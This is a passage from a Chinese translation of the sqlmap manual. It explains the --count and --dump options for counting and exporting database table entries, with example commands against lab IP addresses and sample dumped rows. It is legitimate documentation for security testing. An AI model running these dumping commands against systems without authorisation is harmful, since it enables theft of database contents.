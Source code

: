 ```
```

### 获取数据表的数据条目数

开关：`--count`

如果用户想要在导出所需表数据之前知道表中的条目数，可以使用此开关。

针对 Microsoft SQL Server 目标的示例：

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1"\
 --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+
```

### 导出数据表条目

开关和选项：`--dump`，`-C`，`-T`，`-D`，`--start`，`--stop`，`--first`，`--last`，`--pivot-column` 和 `--where`

如果当前会话用户对特定的数据表有读取权限，则可以导出数据表条目。

此功能依赖选项 `-T` 来指定表名，还可以用选项 `-D` 来指定数据库名称。如果提供了表名而不提供数据库名，则会使用当前的数据库。

针对 Firebird 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1"\
 --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```

此开关也可用于导出指定数据库数据表的所有条目。你只需要提供开关 `--dump` 和选项 `-D`（不提供 `-T` 和 `-C`）。

你还可以使用选项 `-C` 提供一个以逗号分隔的特定列名列表来导出数据。

sqlmap 还能会为每个表生成相应的 CSV 格式文本文件用于存储导出的数据。你可以通过提供大于或等于 **1** 的详细程度级别来查看 sqlmap 所创建文件的绝对路径。

如果只是想导出特定范围的条目，可以提供选项 `--start` 和/或 `--stop`，以指定要从哪条数据开始导出和在哪条数据停止。例如，如果仅导出第一个条目，就在命令行中提供 `--stop 1`。或者如果你只想导出第二和第三个条目，就提供 `--start 1` `--stop 3`。
